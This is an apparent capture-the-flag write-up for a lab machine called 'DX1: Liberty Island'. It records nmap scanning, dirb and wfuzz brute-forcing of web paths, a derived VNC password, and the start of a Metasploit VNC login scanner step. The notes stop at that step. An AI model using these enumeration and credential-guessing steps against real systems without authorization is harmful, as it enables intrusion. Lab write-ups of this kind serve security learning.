 # DX1: Liberty Island
--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.190.59

--------------------------------------------------------------------

## PROCEDURE

```
nmap -sV -oN nmap.txt 10.10.190.59
```

**EXPOSED PORT (SERVICE)**:<br>
    80 (http Apache httpd 2.4.41),<br>
    5901 (VNC protocol 3.8)

```

Found potential username on website:<br>
AJacobson//UNATCO.00013.76490

dirb http://10.10.190.59 /usr/share/wordlists/dirb/common.txt
```

Found hidden directory (/datacubes) in /robots.txt and name "alex"

```
dirb http://10.10.190.59/datacubes /usr/share/wordlists/dirb/common.txt
```

http://10.10.190.59/datacubes goes to http://10.10.190.59/datacubes/0000 so we can try fuzzing the last value<br>
-w will put leading zeroes<br>
```
seq -w 0000 9999 > nums.txt
wfuzz -c -z file,nums.txt --hc 404 http://10.10.190.59/datacubes/FUZZ 
```

Valid Values: 0000, 0011, 0068, 0103, 0233, 0451

Found name "Jonathan" in 0068<br>
Found username "ghermann" in 0103<br>
From 0451, vnc setup under "jacobson" account<br>

VNC login: 'smashthestate', hmac'ed with my username from the 'bad actors' list
Use md5 for the hmac hashing algo. The first 8 characters of the final hash is the VNC password. - JL


Bad Actors List:<br>
apriest<br>
aquinas_nz<br>
cookiecat<br>
craks<br>
curley<br>
darkmattermatt<br>
etodd<br>
gfoyle<br>
grank<br>
gsyme<br>
haz<br>
hgrimaldi<br>
hhall<br>
hquinnzell<br>
infosneknz<br>
jallred<br>
jhearst<br>
jlebedev<br>
jooleeah<br>
juannsf<br>
killer_andrew<br>
lachland<br>
leesh<br>
levelbeam<br>
mattypattatty<br>
memn0ps<br>
nhas<br>
notsus<br>
oenzian<br>
roseycross<br>
sjasperson<br>
sweetcharity<br>
tfrase<br>
thom_seven<br>
ttong<br>search 

jlebedev

baf85b09178098a8e19921accd98d19d

baf85b09

```
msfconsole
search vnc
use auxillary/scanner/vnc_login

```
